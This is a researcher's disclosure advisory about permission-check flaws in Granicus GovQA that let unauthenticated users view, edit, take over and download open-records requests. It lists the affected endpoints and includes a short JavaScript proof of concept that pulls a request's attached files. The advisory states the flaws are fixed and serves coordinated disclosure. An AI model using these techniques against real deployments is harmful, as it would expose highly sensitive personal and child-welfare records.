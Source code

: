 Canonical URL has changed.  See [here](https://govtech.cc/README-2024-03-07-granicus-govqa.md) for updates.

# Granicus GovQA

## Description

Insufficient permission check vulnerabilities in Granicus's GovQA allowed unauthorized access to view, edit, and change ownership of open records requests[^1], including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

## Details

The vulnerabilities allowed attackers to perform several unauthorized actions, as detailed below.

- To view request details, an attacker could access `RequestOpen.aspx?rid=<requestId>` or `RequestOpenCI.aspx?rid=<requestId>`, allowing them to view the name and other private information about the requester, as well as full details of the request.
- To edit request details, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to modify any field originally set by the requester.
- To change ownership of requests, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to manipulate the email field to assign ownership to their own account, another user's account, or to an email address not associated with an existing user.
- To download files attached to a request, which include those uploaded by the requester and the responding organization, an attacker could send a `POST` request to `RequestEdit.aspx/DownloadAll` with the data `{ itemId: <requestId> }`. This action would return a URL similar to `/temp/<requestId>.zip`, which could then be used to download the files. A proof of concept exploit is included below.

The sequential numbering of Request IDs makes it trivial for attackers to discover other requests, posing future risk to the system.

In a clear effort to protect its brand value, Granicus has deemed this issue low severity[^2], showcasing an egregious disregard for industry-standards, such as the Common Vulnerability Scoring System (CVSS).

CVSS: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Timeline

- 2024-01-06 - Vulnerabilities discovered in GovQA.
- 2024-01-08 - Granicus notified that vulnerabilities exist in GovQA.
- 2024-02-27 - Vulnerability details reported to Granicus.
- 2024-03-04 - Granicus confirms receipt of report.
- 2024-03-04 - Vulnerabilities confirmed fixed.

## Proof of Concept

```JavaScript
/*
 * Download all files for the request currently being viewed.
 * No authentication is required.
 */
DownloadFiles((new URL(window.location)).searchParams.get('rid'));

async function DownloadFiles(itemId) {
  const result = await fetch("RequestEdit.aspx/DownloadAll", {
    method: "POST",
    body: JSON.stringify({
      itemId: itemId
    }),
    headers: {"Content-Type": "application/json; charset=utf-8"}
  })
  if (result.status !== 200) {
      console.log(`Unable to download archive for ${itemId}.`);
      return;
  }
  const json = await result.json();
  console.log(`Attempting to download ${json.d}`);
  window.location=`.${json.d}`;
}
```

## Acknowledgements

- [Jaku](https://twitter.com/Jaku), founder of [Crowd Control](https://crowdcontrol.live/), who frequently offers his cybersecurity wisdom and experience.
- [Johnny Xmas](https://linktr.ee/johnnyxmas), [Burbsec](https://burbsec.com/) President, who has long provided guidance and acted as the voice of reason.
- [David DiMolfetta](https://www.nextgov.com/voices/david-dimolfetta/25968/) from [Nextgov/FCW](https://www.nextgov.com/), who immediately understood the severity of these vulnerabilities, took them to his editors, and worked tirelessly on his article[^3].
- [Zack Whittaker](https://techcrunch.com/author/zack-whittaker/) from [TechCrunch](https://techcrunch.com), who graciously allows me to rant about cybersecurity.
- [Brendon Keefe](https://www.atlantanewsfirst.com/authors/brendan.keefe/) from [Atlanta News First](https://www.atlantanewsfirst.com/), who retroactively permitted me to use his open records request for testing.
- The [CISA CVD Team](https://www.cisa.gov/coordinated-vulnerability-disclosure-process) assisted with the coordination of these vulnerabilities.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Sponsorship

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of unpaid labor[^4] are put into researching and disclosing vulnerabilities.

[^1]: _The term "open" in "open records requests" can be misleading, as not all "open" requests are intended for public access. Many state and local governments have exceptions regarding the types of information that can be requested and the individuals permitted to access it. For instance, individuals directly affected by a record may have a legal right to request access regardless of public release exemptions. However, accessing such requests may pose security risks, as sensitive information could be downloaded by attackers. Furthermore, different states have varying requirements for requesting access, with some jurisdictions requiring proof of identity or residency. For example, Tennessee mandates requestors to upload a copy of their State ID to prove residency, potentially exposing personal information to unauthorized access._

<!-- -->

[^2]: _If Granicus considers the leakage of explicit records describing the sexual abuse of children to be of low severity, I shudder to think what they might consider to be of medium or high severity._

<!-- -->

[^3]: _[Flaws in public records management tool could let hackers nab sensitive data linked to requests](https://www.nextgov.com/cybersecurity/2024/03/flaws-public-records-management-tool-could-let-hackers-nab-sensitive-data-linked-requests/394755/)_

<!-- -->

[^4]: _Full disclosure: Granicus has offered to pay me a bounty for reporting this vulnerability; as of publication, that payment is pending._
